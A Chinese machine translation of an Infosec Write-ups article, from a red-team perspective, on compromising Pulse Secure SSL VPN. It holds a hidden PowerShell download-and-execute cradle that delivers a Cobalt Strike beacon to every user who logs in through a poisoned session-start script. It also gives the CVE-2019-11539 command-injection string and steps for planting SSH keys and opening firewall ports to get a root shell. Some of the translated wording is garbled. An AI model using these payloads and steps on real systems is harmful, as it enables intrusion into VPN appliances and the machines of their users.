







# Red Teamer 的脉冲安全 SSL VPN 指南

> 原文：<https://infosecwriteups.com/pulse-secure-ssl-vpn-post-auth-rce-to-ssh-shell-2b497d35c35b?source=collection_archive---------0----------------------->

# 介绍

这篇文章是 Orange Tsai ( [orange_8361](https://twitter.com/orange_8361) )和 Meh Chang ( [mehqq_](https://twitter.com/mehqq_) )就攻击 Pulse Secure SSL VPN 所做的探索和深入研究中与各种黑客合作的集体成果。这项研究主要由艾丽莎·埃雷拉([艾丽莎·埃雷拉 _](https://twitter.com/Alyssa_Herrera_) )、贾斯汀·瓦格纳( [0xDezzy](https://twitter.com/0xDezzy) )和米伊美( [XMPPwocky](https://twitter.com/XMPPwocky) )进行。此外，我们还得到了 Rich Warren([buffaloverflow](https://twitter.com/buffaloverflow))的帮助，实现了漏洞利用的自动化。我们将专注于两个主题，主要是扩展 Orange Tsai 在客户端登录后的文件执行上演示的初始概念验证的功能，以及演示我们如何使用 CVE-2019–11539 获得具有 root 权限的 SSH shell。在后面的博客文章中，我将讨论米伊美和我如何能够为 CVE-2019–11510 创建一个概念证明，后来用于构建贾斯汀·瓦格纳创建的漏洞利用模块。

# **滥用登录脚本功能弹出外壳**

Pulse secure connect 包含允许管理员设置用户客户端的功能，以便在用户登录或注销其 VPN 实例时自动执行本地托管的文件。

此功能允许您设置要执行的脚本，这对于红队队员或恶意演员来说相当有吸引力。我们最初试图在执行 power-shell 或 cmd 时滥用这一功能来执行 args，尽管这没有成功。我们后来从[米伊美](https://twitter.com/XMPPwocky)那里得到了一个想法，尝试 UNC 路径来查询一个 SMB 服务器来执行攻击，这为我们解决了问题。

这是我们所做的，我们首先设置一个 SMB 服务器，这可以通过快速的 google 搜索来完成。然后我们将托管一个批处理文件，该文件将使用 power-shell 在目标上查询和执行我们的 shell，我们使用了一个 cobaltstrike 信标。



批处理脚本的代码

我们用于批处理脚本的代码如下。

```
@echo off 
powershell.exe -nop -w hidden -c “IEX ((new-object net.webclient).downloadstring(‘http://your-ip/payload))”
```



设置钴罢工

现在，在我们的 pulse 安全实例上，我们将使用管理凭据登录。您可以通过利用 CVE-2019–11510 来获取包含会话 ID、明文凭据或您可以破解的哈希的文件。
然后，我们将导航至用户- >用户角色- > VPN 隧道- > Windows:会话启动脚本。



会话开始脚本端点

在这里，我们可以输入包含批处理文件的 SMB 服务器的 UNC 路径，该批处理文件将查询我们的 shell 并执行它。应该看起来像下面的图像



修改了与我们的服务器的会话启动脚本

从这里，任何登录到受损 vpn 实例的用户都将执行我们的有效负载，并随后访问该用户的机器。我们还在视频演示中加入了屏幕截图



用户已登录



用户一登录就执行我们的 shell。

这种利用的视频演示

# 拥有脉冲安全连接 CVE-2019–11539 获得 SSH 根壳。

现在有趣的部分是，我们如何能够利用一个 post-auth 漏洞来获得一个具有 root 权限的 SSH shell。根据前半部分，我们已经提到获得一个未打补丁的脉冲授权并不难，所以我们将进入我们如何拥有这个盒子。

我们在研究过程中发现，我们拥有修改 ssh 密钥和 SSH 密钥配置以及 IP 表的权限，这将允许我们无缝地获得具有 root 访问权限的 SSH shell。

为了快速刷新，post-auth 命令注入要求我们提交以下命令

```
-r$x=”Our command”,system$x# 2>/data/runtime/tmp/tt/setcookie.thtml.ttc <
```

可以在维护->故障排除-> TCP 转储中找到。



我们命令的注入—单击开始嗅探提交

页面会给我们一个错误，但是命令被处理，然后我们会请求[https://your-server/Dana-na/auth/set cookie . CGI](https://your-server/dana-na/auth/setcookie.cgi)来执行命令。每次我们想对服务器执行查询时，我们都需要重复这个过程，否则我们的命令就不会被执行。

此升级旨在修改机器的 sshd 配置，并将我们自己的 ssh 密钥添加到系统中，从而授予在中进行 SSH 的能力。我们专门针对/中的授权密钥。ssh/和/etc/文件夹中的 cloud_sshd_config。Authorized keys 是允许 ssh 进入机器的密钥，而 config sshd 文件是 ssh 守护进程的配置文件。

现在，从这里开始执行后期开发以获得我们的 ssh shell 是相当简单的。首先，我们用 cp cloud_sshd_config 和。bak 扩展名，这样我们就可以备份原始文件。您应该创建一个如下所示的 sshd 配置文件。

```
Protocol 2
UsePrivilegeSeparation no
RSAAuthentication yes
PubkeyAuthentication yes
ClientAliveInterval 180
ListenAddress 0.0.0.0
```

在这之后，我们将把我们自己的 authorized_keys 以及前面描述的 sshd 配置文件保存到 tmp 文件夹中，因为我们已经备份了原始文件，所以现在可以安全地将我们自己的文件移动到服务器并覆盖它。从您自己的服务器上将其卷曲，然后将文件移动到目录中，这是最简单的方法，而不是通过命令注入来修改它。
在这里，我们请求修改 IPtables 来打开端口，这可以通过下面的命令来完成

```
iptables -A INPUT -p tcp — dport PORT -j ACCEPT
```

为了完成我们的更改，我们需要重新启动 sshd-ive 服务以使我们的修改生效。

```
kill -SIGHUP $(pgrep -f “sshd-ive
```

一旦这样做了，我们现在可以 ssh 到我们现在带壳的盒子。

```
ssh root@host -p6667
```

这将为我们提供一个根 ssh shell，无需进一步升级。如上所述，这需要花费一些时间来手动完成，因为每次我们想要启动一个命令时，我们需要发出两个请求。这可以很容易地编写脚本，我们准备了下面的演示来展示从简单的管理员访问 Pulse Secure SSL VPN 到获得服务器的 root 访问权限的能力。我们将额外发布我们的脚本来利用这一点，可以在[https://github.com/0xDezzy/CVE-2019-11539](https://github.com/0xDezzy/CVE-2019-11539)找到

使用 CVE 自动化后期开发-2019–11539

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)